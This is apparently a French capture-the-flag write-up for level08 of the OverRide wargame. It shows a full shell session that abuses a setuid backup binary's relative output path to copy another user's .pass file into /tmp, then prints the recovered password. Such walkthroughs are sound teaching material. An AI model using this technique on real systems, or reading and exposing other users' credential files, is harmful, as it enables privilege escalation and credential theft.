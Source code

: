 En desassemblant le code et en testant le binaire on voit que le binaire fais une sauvegarde du fichier passé en parametre dans un dossier qui s'appelle backups.

En listant le dossier on voit un log

```bash
level08@OverRide:~$ ls
backups  level08
level08@OverRide:~$ cd backups/
level08@OverRide:~/backups$ ls
level08@OverRide:~/backups$ ls-la
ls-la: command not found
level08@OverRide:~/backups$ ls -la
total 4
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    49 Dec  4 11:08 .log
level08@OverRide:~/backups$ cat .log
LOG: Starting back up: /home/users/level09/.pass
level08@OverRide:~/backups$
```

Le soucis c'est que l'on ne peux pas lire dans le home level09.

Gdb nous indique que le dossier backups de sauvegarde est un chemin relatif.

On peux recréer le meme environnement dans tmp (Le seul ndroit ou on peux réecrire) pour récuperer le fichier.

```bash
level08@OverRide:~/backups$ cd /tmp/
level08@OverRide:/tmp$ ls
a.out  hello.asm  level01  level03.py  level04.txt  level05.txt  ok.c  payload  sc.asm
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ls
a.out    hello.asm  level03.py   level05.txt  payload
backups  level01    level04.txt  ok.c         sc.asm
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cd backups/
level08@OverRide:/tmp/backups$ ls
home
level08@OverRide:/tmp/backups$ cd home/
level08@OverRide:/tmp/backups/home$ ls
users
level08@OverRide:/tmp/backups/home$ cd users/
level08@OverRide:/tmp/backups/home/users$ ls
level09
level08@OverRide:/tmp/backups/home/users$ cd level09/
level08@OverRide:/tmp/backups/home/users/level09$ ls
level08@OverRide:/tmp/backups/home/users/level09$ ls -la
total 4
drwxrwxr-x 2 level08 level08 60 Dec  4 11:23 .
drwxrwxr-x 3 level08 level08 60 Dec  4 11:22 ..
-rw-rw---- 1 level09 users   41 Dec  4 11:23 .pass
level08@OverRide:/tmp/backups/home/users/level09$ cat .pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
